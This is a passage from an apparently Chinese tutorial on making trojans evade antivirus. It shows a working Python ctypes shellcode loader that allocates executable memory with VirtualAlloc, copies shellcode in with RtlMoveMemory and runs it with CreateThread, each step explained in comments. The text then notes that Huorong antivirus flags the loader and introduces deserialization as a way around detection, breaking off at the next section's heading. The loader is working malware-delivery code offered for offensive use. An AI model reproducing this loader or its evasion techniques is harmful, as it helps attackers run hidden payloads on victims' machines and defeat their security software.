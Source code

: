 ```python
shellcode= bytearray(bytesbuf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```



### 运行测试

使用火绒扫描Shellcode加载器, 结果可想而知报毒了, 所以更不用说打包成可执行文件了, 因此需要对加载器代码进行反序列化处理

![image-20221119213252111](木马免杀之代码篇/image-20221119213252111.png)

​	

## 简单的反序列化免杀	

### 项目代码
